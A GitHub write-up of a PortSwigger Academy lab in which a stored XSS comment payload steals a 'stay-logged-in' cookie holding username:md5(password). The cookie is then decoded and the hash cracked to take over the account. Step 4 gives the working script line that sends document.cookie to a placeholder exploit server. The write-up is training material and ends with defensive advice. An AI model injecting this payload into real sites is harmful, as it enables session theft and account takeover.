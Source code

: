 #  Offline password cracking

## 📌 Lab Details
- **Title**: Offline password cracking
- **Difficulty**: Practitioner
- **Category**: Authentication
- **Lab URL**: https://portswigger.net/academy/labs/launch/151f941feb521716a2b1005d474bcf3f4ad34dee8790c892af3e36c88c22a128?referrer=%2fweb-security%2fauthentication%2fother-mechanisms%2flab-offline-password-cracking

## 🔍 Summary
The lab combines a stored XSS on the blog comments with an insecure "stay logged in" cookie that stores username:md5(password) Base64‑encoded. By injecting a stored XSS payload you capture Carlos’s cookie on the exploit server and then decode it to access the account.

## 🛠 Steps to Solve
1. Use your own account to investigate the "Stay logged in" functionality. Notice that the `stay-logged-in` cookie is Base64 encoded.
2. Go to the Response to your login request and highlight the `stay-logged-in` cookie, to see that it is constructed as follows:<br>
`username+':'+md5HashOfPassword`
3. You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS.
4. Go to one of the blogs and post a comment containing the following stored XSS payload, remembering to enter your own exploit server ID:
   ```sh
   <script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
   ```
5. On the exploit server, open the access log. There should be a `GET` request from the victim containing their `stay-logged-in` cookie.
6. Decode the cookie in Burp Decoder.
7. Decode the **hash** to find the password.
8. Log into the account and delete the account to complete the lab.

## 📖 Key Takeaways
- **Base64 ≠ encryption** — encoding the cookie in Base64 only hides format; anyone who gets the value can decode it.
- Do not store raw or unsalted password hashes in client-side cookies. Storing `username:md5(password)` lets an attacker perform offline cracking or lookup easily.
- Use cookie protections — mark sensitive cookies `HttpOnly`, `Secure` and consider `SameSite` to reduce theft via client-side scripts or cross-site requests.
  
## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/043299da-2450-45db-bec9-782ae8282f38" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/8f28f078-098a-4061-8cde-3a049146e26a" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/66a16c11-d860-4b4b-93f9-61b794e824b1" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/dc318430-1999-436e-8734-d0615caa830d" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/f73f7be9-700e-431e-a63f-676a0102787e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/e0ad8736-2ab4-44be-b7a0-83a7f3ceb09e" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/5090feea-af73-446f-87fa-adeea29353bb" />
